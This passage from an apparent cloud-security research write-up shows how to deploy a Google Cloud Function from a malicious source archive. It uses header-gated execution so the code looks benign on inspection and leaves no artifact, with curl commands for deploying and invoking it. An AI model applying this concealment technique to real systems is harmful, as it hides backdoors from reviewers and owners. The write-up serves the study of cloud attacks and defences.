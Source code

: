 Command to [deploy Cloud Function via Cloud Function API (REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-rest):
```powershell
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"name\":\"projects/<project-id>/locations/<region>/functions/<function-name>\",\"entryPoint\":\"<function-entrypoint>\",\"runtime\":\"python38\",\"serviceAccountEmail\":\"<service-account-email>\",\"sourceArchiveUrl\":\"<gs-link-of-modified-malicious-sourcecode>\",\"httpsTrigger\":{}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions?alt=json
```

After Deploying the Function successfully and [Binding an IAM Policy to the Cloud Function](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#phase-ii---ways-to-set-iam-policy-binding-to-a-cloud-function-in-google-cloud-platform) (so principals can Invoke it). Repeat the Step 1, 2 & 3 to [Conceal the Source Code](#concealing-the-source-code-via-gcloud) again. 

Now we can invoke the Function Endpoint and see the output.

```powershell
curl -H "my-header: anirban-gcp" https://<your-region>-<your-project-id>.cloudfunctions.net/<function-name>
```

<p><img src="https://drive.google.com/uc?id=13RnUXX6jVEjIPju3uZvv5XdK0h3mS7yt"></p>

Notice how the malicious output is being returned only when we use the header "my-header" and header value "anirban-gcp". This is a better approach to conceal the Source Code.

Earlier, upon looking the at the Source Code, the **Source Code looked Non-Malicious**. But when we invoke the Cloud Function, the **Malicious Source Code was being executed**.

Now, upon looking the at the Source Code, the **Source Code looks Non-Malicious**. But when we invoke the Cloud Function, the **Non-Malicious Source Code is being executed**.

There is no artifact left of the Malicious Source Code used in the Cloud Function. The Cloud Function Source Code is now properly concealed.

## Way II - Update a Cloud Function in Google Cloud Platform

Before you Update a Cloud Function make sure you have: 

1. The necessary APIs and Permissions required for Updating a Cloud Function (gCloud or Cloud Function API (gRPC & REST)).

    - [APIs and Permissions required for Updating a Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#apis-and-permissions-required-for-updating-a-cloud-function-via-gcloud)

    - [APIs and Permissions required for Updating a Cloud Function via Cloud Function API (gRPC & REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#apis-and-permissions-required-for-updating-a-cloud-function-via-cloud-function-api-grpc--rest)

2. The Malicious source code and Non-malicious source code in place.
